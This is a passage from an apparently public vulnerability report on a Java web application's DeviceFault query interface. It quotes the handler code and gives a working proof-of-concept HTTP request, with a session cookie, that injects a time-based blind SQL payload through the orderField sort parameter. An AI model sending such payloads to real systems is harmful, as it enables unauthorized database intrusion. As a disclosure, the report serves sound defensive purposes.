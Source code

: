 ```java
                count = this.service.queryCount(vehicleIdList, start, end, faultTypeList, field, value, repairState, userNameList);
            } else {
                result = this.service.queryLatest(vehicleIdList, faultTypeList, field, value, repairState, userNameList, sortField, sortType, page, rows);
                count = this.service.queryLatestCount(vehicleIdList, faultTypeList, field, value, repairState, userNameList);
            }
        } catch (Exception e) {
            code = 202;
            CommonFunction.writeExceptionLog("DeviceFault", e);
        }
        return CommonFunction.createResultMap(code, count, result);
    }
```
Similar to the previous SQL injection cases, the `sortField` parameter here is still controllable by the user.

Based on this, we constructed the following Proof of Concept (POC):

```
POST http://ip:port/DeviceFault.do?Action=Query HTTP/1.1
Host: ip:port
Content-Length: 163
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
Content-Type: application/x-www-form-urlencoded

EndTime=2024-08-20+00%3A00%3A00&PageIndex=0&PageSize=20&RepairState=-1&StartTime=2024-08-26+00%3A00%3A00&orderField=(select*from(select%0asleep(4))a)&orderType=asc
```
<img width="1934" height="885" alt="image" src="https://github.com/user-attachments/assets/182467be-5357-441a-befe-6539a47b896e" />


The successful 4-second delay confirms that the `DeviceFault.do?Action=Query` interface has an SQL injection vulnerability.

Thank you for your review! Wish you a happy day every day!
